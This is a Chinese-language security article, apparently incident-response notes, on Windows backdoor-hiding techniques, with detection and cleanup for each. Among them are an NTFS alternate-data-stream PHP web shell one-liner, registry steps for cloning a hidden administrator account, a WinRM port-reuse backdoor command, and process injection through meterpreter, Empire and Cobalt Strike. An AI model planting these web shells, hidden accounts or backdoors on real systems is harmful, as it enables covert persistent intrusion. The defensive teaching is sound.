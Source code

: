 
# 0x00 前言
攻击者在获取服务器权限后，通常会用一些后门来维持权限，如果你想让你的后门保持的更久些，那么请隐藏好它，使之不易被管理员发现。


# 0x01 隐藏文件

## 1、利用文件属性
最简单的一种隐藏文件的方式，文件右键属性，勾选隐藏，点击确定后，在这个文件里看不到刚刚的文件了。<br />![privilege-1-1.png](/_img\05-应急响应/1656916772368-06a97d2e-3dd0-4a97-8f80-521d766b8e75.png)

如果要让文件显示出来，就点击查看，勾选显示隐藏的文件，文件就显示出来。<br />![privilege-1-2.png](/_img\05-应急响应/1656916776917-af9c0654-4592-44f9-917b-66c49a3d2784.png)

如何真正隐藏文件？

使用Attrib +s +a +h +r命令就是把原本的文件夹增加了系统文件属性、存档文件属性、只读文件属性和隐藏文件属性。

`attrib +s +a +h +r D:\test\project\test`.txt

这样就做到了真正的隐藏，不管你是否显示隐藏文件，此文件夹都看不见。

破解隐藏文件：<br />打开电脑文件夹选项卡，取消”隐藏受保护的操作系统文件“勾选，把”隐藏文件和文件夹“下面的单选选择“显示隐藏的文件、文件夹和驱动器”。<br />![privilege-1-3.png](/_img\05-应急响应/1656916788936-388c0fbd-84c8-4973-9fdd-1dee2048f8fd.png)


## 2、利用ADS隐藏文件内容
在服务器上echo一个数据流文件进去，比如index.php是网页正常文件，我们可以这样子搞：
```
echo ^<?php @eval($_POST['chopper']);?^> > index.php:hidden.jpg
```

这样子就生成了一个不可见的shell hidden.jpg，常规的文件管理器、type命令，dir命令、del命令发现都找不出那个hidden.jpg的。
```
问题1：如何查看index.php:hidden.jpg内容呢？

　　	进入文件所在目录，notepad index.php:hidden.jpg    或者 dir /r
　　	
问题2：如何删除index.php:hidden.jpg？

     直接删除index.php即可
```


## 3、驱动级文件隐藏
驱动隐藏我们可以用过一些软件来实现，软件名字叫：Easy File Locker<br />下载链接： [http://www.xoslab.com/efl.html](http://www.xoslab.com/efl.html)
如果你在网站目录未查找到相关文件，且系统目录存在存在以下文件：
```
c:\WINDOWS\xlkfs.dat
c:\WINDOWS\xlkfs.dll
c:\WINDOWS\xlkfs.ini
c:\WINDOWS\system32\drivers\xlkfs.sys
```

那么你，应该是遭遇了驱动级文件隐藏。

如何清除？
```
1、查询服务状态： sc qc xlkfs
2、停止服务： net stop xlkfs 服务停止以后，经驱动级隐藏的文件即可显现
3、删除服务： sc delete xlkfs
4、删除系统目录下面的文件，重启系统，确认服务已经被清理了。
```

隐藏文件的方式还有很多，比如伪装成一个系统文件夹图标，利用畸形文件名、保留文件名无法删除，甚至取一个与系统文件很像的文件名并放在正常目录里面，很难辨别出来。

这些隐藏文件的方式早已不再是秘密，而更多的恶意程序开始实现“无文件”攻击，这种方式极难被发现。


# 0x02 隐藏账号
window 隐藏系统用户操作，CMD命令行下，建立了一个用户名为“test$”，密码为“abc123!”的简单隐藏账户,并且把该隐藏账户提升为了管理员权限。<br />![privilege-1-4.png](/_img\05-应急响应/1656916814020-e437db1d-632e-43fb-9dad-912486414878.png)

PS:CMD命令行使用"net user",看不到"test$"这个账号，但在控制面板和本地用户和组是可以显示此用户的。

克隆账号制作过程：<br />1、“开始”→“运行”，输入“regedt32.exe”后回车,需要到“HKEY_LOCAL_MACHINE\SAM\SAM”，单机右建权限，把名叫：administrator的用户给予：完全控制以及读取的权限，在后面打勾就行，然后关闭注册表编辑器，再次打开即可。<br />![privilege-1-5.png](/_img\05-应急响应/1656916819395-3534ba7c-9e04-48c2-b705-13ee6964f484.png)

2、来到注册表编辑器的“HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names”处，点击test$用户，得到在右边显示的键值中的“类型”一项显示为0x3ec，找到箭头所指目录。<br />![privilege-1-6.png](/_img\05-应急响应/1656916822767-ed71a89d-bb2e-4417-b688-f58e4aaf43a1.png)

3、找到administrator所对应的的项为“000001F4”，将“000001F4”的F值复制到“000003EC”的F值中，保存。<br />![privilege-1-7.png](/_img\05-应急响应/1656916826519-ef58c2bc-e46f-4c5c-916e-03fb3cd1304b.png)

4、分别test![](https://g.yuque.com/gr/latex?%E5%92%8C%E2%80%9C000003EC%E5%AF%BC%E5%87%BA%E5%88%B0%E6%A1%8C%E9%9D%A2%EF%BC%8C%E5%88%A0%E9%99%A4test#card=math&code=%E5%92%8C%E2%80%9C000003EC%E5%AF%BC%E5%87%BA%E5%88%B0%E6%A1%8C%E9%9D%A2%EF%BC%8C%E5%88%A0%E9%99%A4test&id=xsqSH)用户   net user test$ /del<br />![privilege-1-8.png](/_img\05-应急响应/1656916831122-4f8cdf87-1ba2-463e-b191-2f037679a1fc.png)

5、将刚才导出的两个后缀为.reg的注册表项导入注册表中。这样所谓的隐藏账户就创建好了。PS：不管你是在命令提示符下输入net user 或者在系统用户管理界面都是看不到test$这个账户的，只有在注册表中才能看得到。

检测和清理方法：<br />使用D盾_web查杀工具，使用克隆账号检测功能进行查看，可检测出隐藏、克隆账号。<br />![privilege-1-9.png](/_img\05-应急响应/1656916837099-fcbfab4d-6ea2-4b3e-861b-672677f47256.png)


# 0x03 端口复用
通过端口复用来达到隐藏端口的目的，在Window下，如何实现端口复用呢？

前阵子，@Twi1ight公布了一种基于内置系统服务的端口复用后门方法，利用WinRM服务，一条命令实现端口复用后门：

`winrm set winrm/config/service @{EnableCompatibilityHttpListener="true"}`

一般开启WinRM服务作为远程管理，但还是第一次听到可以作为端口复用，一种简单容易实现的端口复用方式。假设，攻击者已获取到administrator账号密码，连接远程WinRM服务执行命令：<br />![privilege-1-19.png](/_img\05-应急响应/1656916846525-5324786a-618b-4191-b3e3-aa47a1f14f66.png)

当执行这条命令的同时，将在安全日志中留下痕迹，<br />![privilege-1-20.png](/_img\05-应急响应/1656916850369-6f49528c-504a-47b5-a40b-635e745b870c.png)

另外，可以通过代码实现端口复用重定向，工具：[https://github.com/crabkun/Switcher](https://github.com/crabkun/Switcher)


# 0x04 进程注入
进程注入，一直是病毒木马的惯用手段，同时，它也是一种隐藏技术。在常见的渗透测试框架中，进程注入是怎么做的以及我们如何通过工具排查出来？


## 1、meterpreter会话注入
当前权限无法获取hash值，查看目前系统进程<br />![privilege-1-10.png](/_img\05-应急响应/1656916860130-505f4acc-b30d-42b0-9557-9d897055ba6f.png)

通过migrate将进程注入到system进程后，成功获得hash值。<br />![privilege-1-11.png](/_img\05-应急响应/1656916864106-83609ddc-7e38-4999-92c0-c77423c535fd.png)

Window后门排查：

通过TCPview显示已建立的TCP连接，我们可以看到异常的连接，同时，恶意软件将以绿色显示不到一秒钟，然后变成红色消失，如此循环。<br />![privilege-1-12.png](/_img\05-应急响应/1656916869374-2efc2db8-3e6f-4e39-8a34-636ad52c354a.png)


## 2、Empire会话进程注入
通过psinject模块进行会话注入，直接输入ps选择一个SYSTEM权限的进程PID，使用进程注入模块，来获取权限。如下图：<br />![privilege-1-13.png](/_img\05-应急响应/1656916874690-33f430fd-febf-435d-9d9d-ab6c4d45db75.png)

Window后门排查：利用process monitor或者火绒剑监控进程都可以定位到注入进程。<br />![privilege-1-14.png](/_img\05-应急响应/1656916878258-483e8059-ea5b-4fd2-8310-1e5b951b989a.png)

![privilege-1-15.png](/_img\05-应急响应/1656916882444-ace4f8c8-1557-49a1-bd3b-b3f2e81584dc.png)


## 3、Cobalt Strike进程注入
选择进程，点击inject，随后选择监听器，点击choose，即可发现Cobaltstrike弹回了目标机的一个新会话，这个会话就是成功注入到某进程的beacon。<br />![privilege-1-16.png](/_img\05-应急响应/1656916890182-60e81959-9b71-4a2e-88e4-257b60d4a7a7.png)

![privilege-1-17.png](/_img\05-应急响应/1656916904029-28fd5034-a180-46ac-9d7a-1fe88ed3be03.png)

Window后门排查：利用process monitor捕捉通信过程，有规律的请求取决于sleep设置的间隔。<br />![privilege-1-18.png](/_img\05-应急响应/1656916909967-51e0dc33-a0d4-4833-9a63-70ad55eb021c.png)


### 0x05  结束
本文主要介绍了Window下的几种隐藏技术，包括隐藏文件、隐藏账号、端口复用、进程注入等方面的简单实现及其排查技巧。仅作抛砖引玉之用，欢迎留言分享。
